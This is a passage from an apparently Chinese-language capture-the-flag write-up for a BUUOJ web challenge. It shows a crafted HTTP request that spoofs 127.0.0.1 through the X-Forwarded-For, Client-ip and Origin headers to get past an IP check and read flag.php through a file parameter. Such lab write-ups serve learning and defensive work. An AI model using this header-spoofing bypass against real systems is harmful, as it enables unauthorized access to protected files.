 随便传个 Merak=1 即可通过:

![5-3.png](5-3.png)

接下来是读取文件, 首先改包完成 ip 校验:

由于不知道该改哪里, 就把能改 ip 的地方全改了:

```
GET /secrettw.php?file=flag.php&2333=%20todat%20is%20a%20happy%20day HTTP/1.1
Host: 29900577-435a-43ff-9e60-1fc96f3dae7f.node5.buuoj.cn:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:141.0) Gecko/20100101 
Firefox/141.0
X-Forwarded-For:127.0.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Client-ip:127.0.0.1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://29900577-435a-43ff-9e60-1fc96f3dae7f.node5.buuoj.cn:81/secrettw.php
Origin: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

![5-4.png](5-4.png)
